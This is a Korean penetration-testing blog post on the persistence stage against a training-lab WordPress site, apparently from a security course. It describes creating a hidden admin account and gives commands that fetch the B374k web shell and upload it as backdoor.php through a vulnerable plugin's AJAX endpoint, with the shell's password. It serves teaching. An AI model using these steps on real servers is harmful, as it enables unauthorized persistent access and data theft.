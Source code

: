 ```yaml
---
layout: post
title: fngs.kr | 4. 지속
subtitle: fngs.kr 4. 지속 단계
categories: Pentest
tags: [Pentest, TTPs]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 이전 내용

관리자 계정에 대한 패스워드를 크랙하는데 성공했다. 하지만 해당 계정의 패스워드가 다시 변경 되어 재접근이 힘들 수가 있다. 따라서 지속적으로 접근하기 위한 방법이 필요하다.

## Persistence

지속성은 공격자는 다시 시작, 자격 증명 변경 및 액세스가 차단될 수 있다.

예를 들어, 담담자에 의해 관리자 권한으로 들어온 것이 들통나게 되어 관리자 패스워드 변경 및 접속 차단이 될 수가 있다.

이러한 기타 중단을 대비해 시스템에 대한 액세스를 지속하기 위해 사용하는 기술로 구성됩니다.

### Create Account

해당 관리자 계정의 패스워드가 변경되면 해당 계정으로는 접근이 불가할 것이다. 그렇기에 관리자 권한을 가진 계정을 새롭게 만들 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183037849-82dd9b1c-e2a6-40e4-97d0-5160fbbce36a.png" width = 390>
</p>

실제로는 운용중인 계정이 수도 없이 많을 것이다. 이렇게 계정을 직접 만들면 매번 확인하는게 아니라면 탐지에 어려울 수 있다.

ehgks,

### Server Software Component : Web Shell

자격 증명을 얻고 나서 지속적으로 액세스 하기 위해 **파일 업로드 취약점**이 존재하는 플러그인을 강제로 활성화시켜 웹 쉘을 올릴 것이다.

웹 쉘은 공격자가 웹 서버를 네트워크의 게이트웨이로 사용할 수 있도록 공개적으로 액세스할 수 있는 웹 서버에 배치되는 웹 스크립트입니다.

만약, 공격자가 웹쉘을 통해 CMD 명령을 통해 정보 탈취 및 악의적인 행위를 수행한다면 해당 전술(웹 쉘)에 맵핑이 될 수 없다.

지속적이 아닌 탈취 및 다른 행동이 주 목적이였다면 **Excution > Command and Scripting Interpreter: Windows Command Shell** 전략 및 전술에 포함 될 것이다.

또한, **Persistence > Browser Extensions**가 아닌 이유로는 브라우저 확장을 살펴보면 플러그인에 대한 내용은 악성 브라우저, 플러그인 확정 설치로 설명되어있다. 

그렇다는 것을 우리는 일반적으로 사용하는 플러그인이므로, 악의적으로 만들어진 플러그인이 아니므로 해당 항목에 맵핑 될 수 없다.

다시 돌아와서 플러그인 활성화부터 진행하겠습니다.

[Plug in](https://www.exploit-db.com/exploits/36979)을 설치하여 압축 해제 없이 아래처럼 올리고 활성화 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183234953-2b8ba3a2-051d-4b03-9ad2-ec197f1a4ae5.png" width = 420>
</p>

이렇게 웹 쉘을 올릴 수 있는 환경이 만들어졌고, **B374k** 웹 쉘을 올릴 것이다. (해당 웹 쉘을 Git에도 있으므로, 서칭해보시길 바랍니다.)

```bash
wget [webshell.url]
cp b374k-3.2.3.php ~/backdoor.php
curl -k -X POST -F "action=upload" -F "Filedata=@./backdoor.php" -F "action=nm_webcontact_upload_file" https://dev.fngs.kr/wp-admin/admin-ajax.php
```

이후, http://......../[upload_backdoor_name] 을 통해 접근하면 아래처럼 된다.(웹 쉘 접속 비밀번호 : b374k)

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183235432-954d0584-8972-43ec-a4e4-c3823ec30590.png" width = 420>
</p>

웹 쉘이 정상 작동하는 것을 확인 할 수 있다. 이번에는 2차 침투를 위해 리버스 쉘을 실행할 것이다.